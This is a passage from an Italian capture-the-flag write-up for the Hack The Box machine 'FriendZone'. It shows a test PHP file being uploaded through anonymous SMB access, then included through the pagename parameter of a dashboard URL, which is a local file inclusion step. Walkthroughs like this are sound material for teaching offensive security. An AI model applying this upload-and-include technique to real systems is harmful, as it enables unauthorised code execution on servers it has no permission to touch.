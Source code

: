 ```bash
┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# cat test.php     
<?php
echo "It's working!";
?>   
```

con smbclient lo carichiamo nella condivisione Development
```bash

┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# smbclient  //10.10.10.123/Development -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jun  6 14:54:24 2023
  ..                                  D        0  Tue Sep 13 10:56:24 2022

                3545824 blocks of size 1024. 1648736 blocks available
smb: \> put test.php 
putting file test.php as \test.php (0.2 kb/s) (average 0.2 kb/s)
smb: \> dir
  .                                   D        0  Wed Jun  7 06:48:20 2023
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  test.php                            A       31  Wed Jun  7 06:48:20 2023

                3545824 blocks of size 1024. 1648732 blocks available
smb: \> 

```

navighiamo alla pagina, https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/test
>abbiamo sostituito il paramentro pageneme= con il percorso del file test
